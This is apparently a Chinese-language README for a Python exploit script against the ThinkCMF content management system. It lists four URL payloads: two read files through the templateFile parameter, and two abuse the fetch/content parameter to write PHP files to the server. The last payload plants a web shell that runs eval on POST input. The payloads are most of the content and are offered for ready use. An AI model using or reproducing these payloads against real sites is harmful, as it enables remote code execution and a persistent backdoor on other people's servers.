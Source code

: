 # 一个简单python3的thinkcmf-exp
探测以下4个payload:


```url
?a=display&templateFile=README.md
```



```url
?a=display&templateFile=config.yaml
```



```url
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo();?>')</php>
```



```url
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('red.php','by:zjun <?php eval($_POST["red"]);?>')</php>
```


此脚本只用了requests和argparse库完成,因此可以即下即用.

该脚本具有一定误差,请谨慎使用,仅供参考!

详见:[一个简单的thinkcmf-exp](https://blog.zjun.info/2020/a-simple-thinkcmf-exp.html)
